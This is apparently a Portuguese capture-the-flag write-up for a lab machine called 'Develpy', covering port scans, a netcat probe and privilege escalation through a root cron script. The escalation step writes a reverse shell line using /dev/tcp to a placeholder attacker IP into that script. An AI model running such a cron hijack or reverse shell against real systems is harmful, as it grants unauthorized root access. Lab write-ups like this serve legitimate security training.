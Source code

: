# Develpy

* ### Scan de portas - Verificando quais portas estão abertas.

```bash
rustscan -a 10.10.203.224
```
![image](https://github.com/lufffe/Writeups/assets/90646635/8b100942-e554-41ae-bb5a-632977fc9dfe)

![image](https://github.com/lufffe/Writeups/assets/90646635/e9afa434-f442-4db2-9272-a4032e338f5d)

* ### Verificando o que está rodando nas portas encontradas.
```bash
nmap -A -p 22,10000 10.10.203.224
```
![image](https://github.com/lufffe/Writeups/assets/90646635/58fba8e1-dd50-4d14-89fe-4ef9461b8fbb)

* ### Ligando o Netcat na porta e podemos ver que ta rodando algo com python.
```bash
nc 10.10.203.224 10000
```
![image](https://github.com/lufffe/Writeups/assets/90646635/b313cc4e-6ac6-416e-90d1-0f4325dd0718)

![image](https://github.com/lufffe/Writeups/assets/90646635/b787ad89-52fe-49a6-b67b-312716e68a3b)

* ### Flag User;
```bash
cat user.txt
```

* ### Depois de um tempo procurando sem encontrar, olhei o crontab.
```bash
cat /etc/crontab
```
![image](https://github.com/lufffe/Writeups/assets/90646635/086568b1-0eee-4917-9390-398dc19a534f)


* ### Escalando previlégios.
```bash
rm root.sh
```
```bash
echo "bash -i >& /dev/tcp/[SEU IP]/4445 0>&1" > root.sh
```
![image](https://github.com/lufffe/Writeups/assets/90646635/3cd78694-1dad-47a0-a236-cfcb77bde5b9)

![image](https://github.com/lufffe/Writeups/assets/90646635/46439f17-05ef-4a1d-92a1-78c5345ab5aa)

* ### Flag Root.
```bash
cat root.txt
```
